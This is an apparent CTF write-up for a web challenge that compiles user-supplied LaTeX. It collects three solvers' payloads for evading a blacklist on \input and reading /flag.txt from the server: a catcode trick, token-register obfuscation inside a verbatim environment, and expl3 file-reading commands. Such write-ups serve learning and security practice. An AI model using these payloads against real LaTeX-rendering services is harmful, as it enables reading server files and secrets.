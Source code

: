 # latex

My first LaTeX website for my math teacher. I hope this will become the best gift for him! :)

## Solution

Saw in Discord channel.

`\input` is the only command with a backslash in the blacklist

change catcode for escape

```latex
\catcode`\%=0
%input{/flag.txt}
```

https://github.com/TCP1P/TCP1P-CTF-2023-Challenges/tree/main/Web/Latex/writeup

```latex
\documentclass{article}
\RequirePackage{verbatim}
\begin{document}
\newtoks\in
\newtoks\put
\in={in}
\put={put}
\begin{verbatim\the\in\the\put}{/flag.txt}\end{verbatim\the\in\the\put}
\end{document}
```

I think I tried this, but didn't know you could use `\RequirePackage{verbatim}`.
I wonder if bibliography file read via Bibtex would have worked here...


Another solver from discord:

```latex
\documentclass[12pt]{article}
\begin{document}
\ExplSyntaxOn
\ior_open:Nn \g_tmpa_ior {/flag.txt}
\ior_str_map_variable:NNn \g_tmpa_ior \l_tmpa_str {
     \pdfescapehex{\l_tmpa_str}
}
\ior_close:N \g_tmpa_ior
\ExplSyntaxOff
\end{document}
```

https://tex.stackexchange.com/questions/108696/what-do-explsyntaxon-and-explsyntaxoff-do

https://tex.stackexchange.com/questions/60981/latex-3-read-write-to-file-like-toc


